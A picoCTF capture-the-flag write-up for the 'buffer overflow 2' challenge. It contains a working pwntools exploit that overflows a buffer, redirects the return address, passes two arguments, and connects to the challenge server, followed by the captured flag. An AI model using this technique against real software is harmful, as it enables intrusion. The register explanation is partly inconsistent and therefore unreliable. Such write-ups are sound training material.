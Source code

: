 # buffer overflow 2

### Description
> Control the return address and arguments

### Solution
**I guess my solution is non-assumed solution.**

After causing an overflow and overwrites the return address,
you have to set the value to the first and second arguments as shown below.

```
arg1 <- 0xCAFEF00D
arg2 <- 0xF00DF00D
```

`esi` register is the first argument and `edi` register is the second argument,
so you need to search `pop esi; pop edi; ret;` gadget.

Using the ropper,
```
$ropper -f vuln --search "pop esi; pop edi;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop esi; pop edi;

[INFO] File: vuln
0x08049451: pop esi; pop edi; pop ebp; ret;
```

Final solution

```
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 49940
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

pop_esi_edi_ebp = 0x08049451

io = remote(host, port)
#io = process(file)
pld = b"A"*112
pld += p32(0x08049296)
pld += p32(pop_esi_edi_ebp)
pld += p32(0xCAFEF00D) # edi
pld += p32(0xF00DF00D) # esi


io.sendlineafter("string:", pld)

io.interactive()
#picoCTF{argum3nt5_4_d4yZ_74abd092}
```
